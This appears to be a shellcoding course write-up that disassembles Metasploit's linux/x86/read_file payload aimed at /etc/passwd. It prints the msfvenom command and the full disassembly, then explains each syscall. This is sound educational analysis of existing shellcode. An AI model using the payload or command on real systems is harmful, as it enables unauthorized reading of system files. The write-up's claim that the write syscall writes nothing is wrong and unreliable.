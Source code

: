 # Solution (using ndisasm)

If we dump the nasm code from the payload (msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -), here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 
   
    Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 
   
    Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 
   
       00000007  5B                pop ebx 

           5 is set to EAX <=> Syscall, function open selected

           The content of the top of the stack is set to ebx, 

           in this case, /etc/passwd).
    
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.png "Pop Ebx")

   4)  00000008  31C9              xor ecx,ecx 
   
    Clearing out ecx, now is 0
       
   5)  0000000A  CD80              int 0x80 
   
    int open(const char *pathname, int flags); open(/etc/passwd, 0) 
   
    where EAX is 5=OPEN, EBX is etc/passwd=PATH and ECX is 0=FLAGS
   
   6) 0000000C  89C3              mov ebx,eax 
    
    Eax is set to ebx
   
   7) 0000000E  B803000000        mov eax,0x3  
   
    Eax is set to 3 <=> Syscall, function read selected
   
   8) 00000013  89E7              mov edi,esp 
   
    Top of stack set to edi;
   
   9) 00000015  89F9              mov ecx,edi 
   
    Edi set to ecx;
   
   10) 00000017  BA00100000        mov edx,0x1000 
   
    Edx set to 4096 (decimal)
   
   11) 0000001C  CD80              int 0x80 
   
    Read function executed --> ssize_t read(int fd, void *buf, size_t count);
   
    EAX=3=READ,EBX=3=FD, ECX=EDI=BUF, EDX=4096=COUNT
   
   12) 0000001E  89C2              mov edx,eax 
   
    EDX set to EAX
   
   13) 00000020  B804000000        mov eax,0x4 
   
    Eax to 4 <=> Syscall, function write
   
   14) 00000025  BB01000000        mov ebx,0x1 
   
    Ebx=1
   
   15) 0000002A  CD80              int 0x80 
   
    ssize_t write(int fd, const void *buf, size_t count);
 
    In this case, is just called but no writing is done.
 
   16) 0000002C  B801000000        mov eax,0x1 
   
    Exit called
   
   17) 00000031  BB00000000        mov ebx,0x0
   
   18) 00000036  CD80              int 0x80 
   
    Execution of exit 
   
